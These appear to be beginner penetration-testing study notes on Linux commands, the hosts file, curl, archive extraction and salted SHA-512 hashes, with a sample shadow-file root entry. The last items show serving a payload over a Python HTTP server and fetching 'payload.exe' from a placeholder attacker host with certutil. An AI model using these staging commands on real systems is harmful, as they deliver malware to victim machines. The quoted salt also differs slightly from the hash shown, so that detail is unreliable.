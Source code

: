 1) What is that command ? 
- use ``whatis`` command to find out - ``whatis nslookup``

2) How to open host file in Linux ?
```
sudo nano /etc/hosts
```

3) What is a host file tho ?
- It contains the list of hostnames and Domain names and their corresponding IP addresses. 
- U can make changes in the host file to map an IP address to a local domain. (Cannot be accessed by the internet). 
```
192.168.0.1 router.admin
```

4) Extract files using `gzip` and `tar`
```
gzip -d file.gz
```

```
tar -xf file.tar.gz
```

5) What's `curl` ?
`curl`: This is a command-line tool used to transfer data to or from a server using various network protocols, such as HTTP, HTTPS, FTP, etc.

6) What's `more` ?
`more` prints one page at a time in the terminal if the output text is too long. For example, we can pipe the curl command through `more` to show the result in a more concise manner. 

```
curl <ip> | more
```

7) Explain salted password hashing
A "salt" in the context of password hashing is a random value that is generated and combined with a user's password before hashing it. The primary purpose of a salt is to add uniqueness and complexity to the password hashing process.

```
root:$6$eoOI5IAu$S1eBFuRRxwD7qEcUIjHxV7Rkj9OXaIGbIOiHsjPZF2uGmGBjRQ3rrQY3/6M.fWHRBHRntsKhgqnClY2.KC.vA/:17861:0:99999:7:::
```

- In this example, `eo0I5IAu` is the unique salt.
- `$6$` prefix indicates the hashing algorithm, in this case SHA-512.

8) How to host a Python `http` server to host a payload ?

```
python -m SimpleHTTPServer 80
```

9) How to download a file from a remote server using CMD on Windows ?

```
certutil -urlcache -f http://<lhost>/payload.exe payload.exe
```
